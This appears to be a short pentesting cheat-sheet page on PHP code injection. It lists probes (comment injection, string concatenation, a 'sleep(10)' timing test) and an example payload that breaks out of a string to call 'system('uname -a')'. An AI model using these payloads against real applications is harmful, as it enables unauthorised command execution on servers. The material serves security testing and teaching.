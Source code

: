
## Few ways you can test for it
- Using comments and injecting `/*random value*/ random value`
- With string concentration: `"."ha"."cker`
- Time based: `sleep(10)`

## PHP exploit example
- so now we have to concentrate the default string with a command like so
```php
".system('uname -a'); $dummy="
```



